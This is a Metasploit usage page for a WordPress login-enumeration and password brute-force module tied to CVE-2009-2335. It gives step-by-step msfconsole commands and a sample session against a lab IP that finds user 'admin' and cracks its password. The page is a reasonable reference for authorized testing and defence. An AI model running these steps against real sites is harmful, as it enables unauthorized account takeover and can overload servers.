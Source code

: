 ## Descriptions

This auxiliary module will brute-force a WordPress installation and first determine valid usernames and then perform a password-guessing attack. WordPress and WordPress MU before 2.8.1 exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote attackers to enumerate valid usernames. NOTE: The vendor reportedly disputes the significance of this issue, indicating that the behavior exists for "user convenience." More infomation can be found in [CVE-2009-2335](https://www.cvedetails.com/cve/cve-2009-2335).
On the other hand, If you wish to brute force in parallel Wordpress, for login enumeration or valid passwords, you could use also tools like thc-hydra (http://www.thc.org/thc-hydra) or foofus medusa (http://foofus.net/goons/jmk/medusa/medusa.html). But sometimes these tools may cause denial of service.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/wordpress_login_enum```
2. Do: ```set URI [URI]```
3. Do: ```set PASS_FILE [password file]```
4. Do: ```set USER_FILE [username list file]```
5. Do: ```set RHOSTS [IP]```
6. Do: ```run```

## Scenarios

```
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set URI /wordpress/wp-login.php
URI => /wordpress/wp-login.php
msf auxiliary(wordpress_login_enum) > set PASS_FILE /tmp/passes.txt
PASS_FILE => /tmp/passes.txt
msf auxiliary(wordpress_login_enum) > set USER_FILE /tmp/users.txt
USER_FILE => /tmp/users.txt
msf auxiliary(wordpress_login_enum) > set RHOSTS 192.168.1.201
RHOSTS => 192.168.1.201
msf auxiliary(wordpress_login_enum) > run

[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Running User Enumeration
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'administrator'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Invalid Username: 'administrator'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'admin'
[+] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration- Username: 'admin' - is VALID
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'root'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Invalid Username: 'root'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'god'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Invalid Username: 'god'
[+] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Found 1 valid user
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Running Bruteforce
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Skipping all but 1 valid user
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:''
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'root'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'admin'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'god'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'s3cr3t'
[+] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - SUCCESSFUL login for 'admin' : 's3cr3t'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(wordpress_login_enum) >
```
